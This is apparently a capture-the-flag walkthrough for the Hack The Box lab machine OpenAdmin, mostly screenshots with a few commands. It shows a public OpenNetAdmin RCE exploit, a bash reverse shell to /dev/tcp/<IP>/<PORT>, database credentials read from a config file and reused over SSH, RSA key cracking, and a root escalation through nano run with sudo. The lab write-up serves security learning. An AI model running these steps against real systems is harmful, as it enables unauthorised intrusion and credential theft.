 ```yaml
---
title: OpenAdmin
layout: post
author: Bit Criminals Team
date: 2021-07-29 14:00:00 +0530
type: Pentesting
difficulty: Medium
prompt: https://app.hackthebox.eu/machine/OpenAdmin
---
```


## STEP_1 ==> NMAP SCAN

![](/images/whitefang/OpenAdmin_nmap.png) 


## STEP_2 ==> GOBUSTER

![](/images/whitefang/OpenAdmin_gobuster.png) 

  
## STEP_3 ==> OPEN /music

>http://10.10.10.171/music

![](/images/whitefang/OpenAdmin_music.png) 

![](/images/whitefang/OpenAdmin_ona.png) 


## STEP_4 ==> SEARCHING THE EXPLOIT

![](/images/whitefang/OpenAdmin_searchsploit.png)

>https://github.com/amriunix/ona-rce


 ## STEP_5 ==> GETTING SHELL

```bash
python3 ona-rce.py check http://10.10.10.171/ona/
```

![](/images/whitefang/OpenAdmin_revshell.png)

Sending reverse shell on our IP:
```bash
/bin/bash -c 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1'
```
![](/images/whitefang/OpenAdmin_listen.png)


## STEP_6 ==> GETTING USER PASSWORD

Opening /var/www/html/ona/local/config//database_settings.inc.php

![](/images/whitefang/OpenAdmin_password.png)

Trying same password to ssh login on user - jimmy


## STEP_7 ==> GETTING RSA KEY

Opening  /var/www/internal/main.php

![](/images/whitefang/OpenAdmin_jimmy.png)

Getting RSA key

```bash
curl http://127.0.0.1:52846/main.php
```
![](/images/whitefang/OpenAdmin_rsa.png)


## STEP_8 ==> CRACKING RSA KEY

![](/images/whitefang/OpenAdmin_rsacrack.png)


## STEP_9 ==> SSH LOGIN (joanna)

![](/images/whitefang/OpenAdmin_vulroot.png)


## STEP_10 ==> ROOT
  
we can access /bin/nano as root without password.
we can open the /opt/priv file using the nano to escalate to the user to root.
```bash
reset; sh 1>&0 2>&0
```
  
![](/images/whitefang/OpenAdmin_nano.png)

![](/images/whitefang/OpenAdmin_flag.png)
